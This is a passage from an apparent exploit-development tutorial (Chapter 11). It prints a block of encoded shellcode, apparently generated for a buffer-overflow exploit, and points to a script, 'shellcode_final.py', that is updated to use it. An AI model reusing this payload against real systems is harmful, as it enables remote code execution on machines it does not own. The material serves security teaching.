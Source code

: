 ![](./img/Chapter11/26.png)

We get the shellcode:

```
"\xd9\xc1\xd9\x74\x24\xf4\x5f\x31\xc9\xba\xef\x6f\xde\x43"
"\xb1\x52\x83\xef\xfc\x31\x57\x13\x03\xb8\x7c\x3c\xb6\xba"
"\x6b\x42\x39\x42\x6c\x23\xb3\xa7\x5d\x63\xa7\xac\xce\x53"
"\xa3\xe0\xe2\x18\xe1\x10\x70\x6c\x2e\x17\x31\xdb\x08\x16"
"\xc2\x70\x68\x39\x40\x8b\xbd\x99\x79\x44\xb0\xd8\xbe\xb9"
"\x39\x88\x17\xb5\xec\x3c\x13\x83\x2c\xb7\x6f\x05\x35\x24"
"\x27\x24\x14\xfb\x33\x7f\xb6\xfa\x90\x0b\xff\xe4\xf5\x36"
"\x49\x9f\xce\xcd\x48\x49\x1f\x2d\xe6\xb4\xaf\xdc\xf6\xf1"
"\x08\x3f\x8d\x0b\x6b\xc2\x96\xc8\x11\x18\x12\xca\xb2\xeb"
"\x84\x36\x42\x3f\x52\xbd\x48\xf4\x10\x99\x4c\x0b\xf4\x92"
"\x69\x80\xfb\x74\xf8\xd2\xdf\x50\xa0\x81\x7e\xc1\x0c\x67"
"\x7e\x11\xef\xd8\xda\x5a\x02\x0c\x57\x01\x4b\xe1\x5a\xb9"
"\x8b\x6d\xec\xca\xb9\x32\x46\x44\xf2\xbb\x40\x93\xf5\x91"
"\x35\x0b\x08\x1a\x46\x02\xcf\x4e\x16\x3c\xe6\xee\xfd\xbc"
"\x07\x3b\x51\xec\xa7\x94\x12\x5c\x08\x45\xfb\xb6\x87\xba"
"\x1b\xb9\x4d\xd3\xb6\x40\x06\x1c\xee\xf4\x53\xf4\xed\x08"
"\x5d\xbe\x7b\xee\x37\xd0\x2d\xb9\xaf\x49\x74\x31\x51\x95"
"\xa2\x3c\x51\x1d\x41\xc1\x1c\xd6\x2c\xd1\xc9\x16\x7b\x8b"
"\x5c\x28\x51\xa3\x03\xbb\x3e\x33\x4d\xa0\xe8\x64\x1a\x16"
"\xe1\xe0\xb6\x01\x5b\x16\x4b\xd7\xa4\x92\x90\x24\x2a\x1b"
"\x54\x10\x08\x0b\xa0\x99\x14\x7f\x7c\xcc\xc2\x29\x3a\xa6"
"\xa4\x83\x94\x15\x6f\x43\x60\x56\xb0\x15\x6d\xb3\x46\xf9"
"\xdc\x6a\x1f\x06\xd0\xfa\x97\x7f\x0c\x9b\x58\xaa\x94\xbb"
"\xba\x7e\xe1\x53\x63\xeb\x48\x3e\x94\xc6\x8f\x47\x17\xe2"
"\x6f\xbc\x07\x87\x6a\xf8\x8f\x74\x07\x91\x65\x7a\xb4\x92"
"\xaf"
```

Update the script to use this shellcode: [shellcode_final.py](./Scripts/Chapter11/shellcode_final.py)
